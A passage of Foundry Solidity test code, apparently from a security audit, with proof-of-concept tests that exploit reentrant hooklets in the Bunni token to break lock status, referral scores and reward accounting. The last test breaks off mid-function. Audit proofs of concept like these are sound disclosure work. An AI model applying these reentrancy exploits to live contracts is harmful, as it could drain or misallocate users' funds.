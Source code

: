 ```solidity

    function test_PoCUnlockerReentrantHooklet() external {
        uint256 amountAlice = _makeDeposit(key, 1 ether, 1 ether, alice, refA);
        uint256 amountBob = _makeDeposit(key, 1 ether, 1 ether, bob, refB);

        // lock account as `bob`
        vm.prank(bob);
        bunniToken.lock(unlocker, "");
        assertTrue(bunniToken.isLocked(bob), "isLocked returned false");
        assertEq(address(bunniToken.unlockerOf(bob)), address(unlocker), "unlocker incorrect");
        assertEq(unlocker.lockedBalances(bob), amountBob, "locked balance incorrect");

        // transfer from `alice` to `bob`
        vm.prank(alice);
        bunniToken.transfer(bob, amountAlice);

        assertEq(bunniToken.balanceOf(alice), 0, "alice balance not 0");
        assertEq(bunniToken.balanceOf(bob), amountAlice + amountBob, "bob balance not equal to sum of amounts");
        console2.log("locked balance of bob: %s", unlocker.lockedBalances(bob));
        console2.log("but bunniToken.isLocked(bob) actually now returns: %s", bunniToken.isLocked(bob));
    }

    function test_PoCMinInitialSharesScore() external {
        uint256 amount = _makeDeposit(key, 1 ether, 1 ether, alice, address(0));
        assertEq(bunniToken.scoreOf(address(0)), amount + MIN_INITIAL_SHARES, "initial score not 0");

        // transfer from `alice` to `bob` (re-entrant deposit)
        vm.prank(alice);
        bunniToken.transfer(bob, amount);

        console2.log("score of address(0): %s != %s", bunniToken.scoreOf(address(0)), MIN_INITIAL_SHARES);
        console2.log("score of refB: %s", bunniToken.scoreOf(refB));
    }

    function test_PoCCrossContractReentrantHooklet() external {
        // 1. Make initial deposit from alice with referrer refA
        address referrer = refA;
        assertEq(bunniToken.scoreOf(referrer), 0, "initial score not 0");
        console2.log("making initial deposit");
        uint256 amount = _makeDeposit(key, 1 ether, 1 ether, alice, referrer);
        assertEq(bunniToken.referrerOf(alice), referrer, "referrer incorrect");
        assertEq(bunniToken.balanceOf(alice), amount, "balance not equal to amount");
        assertEq(bunniToken.scoreOf(referrer), amount, "score not equal to amount");

        // 2. Distribute rewards
        poolManager.unlock(abi.encode(currency0, 1 ether));
        bunniToken.distributeReferralRewards(true, 1 ether);
        (uint256 claimable, ) = bunniToken.getClaimableReferralRewards(address(0));
        console2.log("claimable of address(0): %s", claimable);
        (claimable, ) = bunniToken.getClaimableReferralRewards(refA);
        console2.log("claimable of refA: %s", claimable);

        // 3. Transfer bunni token to bob (re-entrant)
        referrer = address(0);
        assertEq(bunniToken.referrerOf(bob), referrer, "bob initial referrer incorrect");
        assertEq(bunniToken.scoreOf(referrer), 1e12, "initial score of referrer not MIN_INITIAL_SHARES");
        referrer = refB;
        assertEq(bunniToken.scoreOf(referrer), 0, "initial score referrer not 0");
```